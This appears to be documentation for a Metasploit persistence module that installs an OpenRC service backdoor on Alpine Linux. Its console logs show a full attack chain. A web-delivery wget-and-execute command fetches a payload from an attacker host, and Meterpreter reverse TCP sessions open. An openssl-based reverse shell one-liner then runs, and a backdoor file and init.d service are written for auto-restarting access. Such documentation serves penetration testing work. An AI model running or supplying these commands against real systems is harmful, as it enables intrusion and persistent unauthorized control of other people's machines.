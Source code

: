 ## Vulnerable Application

This module will create a service on the box via OpenRC, and mark it for auto-restart.
We need enough access to write service files and potentially restart services.

Verified against alpine 3.21.2

## Verification Steps

1. Exploit a box and get a **root** session
2. `use exploit/linux/persistence/init_openrc `
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

### SERVICE

The name of the service to create.  If not chosen, a random one is created.

### PAYLOAD_NAME

The name of the file to write with our shell if a non-cmd payload is used.  If not chosen, a random one is created.

## Scenarios

### Alpine Linux 3.21.2

Of note, the default install of Alpine doesn't have `curl`, or `bash`. The `OpenSSL` payload was confirmed working though

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO xK7yCqmS --no-check-certificate http://111.111.1.111:8181/l; chmod +x xK7yCqmS; ./xK7yCqmS& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:33954) at 2025-02-09 09:31:16 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/root) > getuid
Server username: root
(Meterpreter 1)(/root) > sysinfo
Computer     : alpine3.21.2
OS           :  (Linux 6.12.12-0-virt)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/root) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_openrc 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > set payload payload/cmd/unix/reverse_openssl
payload => cmd/unix/reverse_openssl
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > exploit
[+] sh -c '(sleep 4296|openssl s_client -quiet -connect 111.111.1.111:4444|while : ; do sh && break; done 2>&1|openssl s_client -quiet -connect 111.111.1.111:4444 >/dev/null 2>&1 &)'
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_openrc) > 
[*] Started reverse double SSL handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /tmp/ is writable and openrc based
[*] Writing backdoor to /tmp//rljkrbglMY
[*] Writing service: /etc/init.d/GpdAgZVBGWq
[*] Writing '/etc/init.d/GpdAgZVBGWq' (141 bytes) ...
[*] Enabling service
[+] Starting service
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/alpine3.21.2_20250209.3159/alpine3.21.2_20250209.3159.rc
[*] Command: echo duVbKHsRwQ5D05J7;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "duVbKHsRwQ5D05J7\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (111.111.1.111:4444 -> 222.222.2.222:43560) at 2025-02-09 09:32:07 -0500
```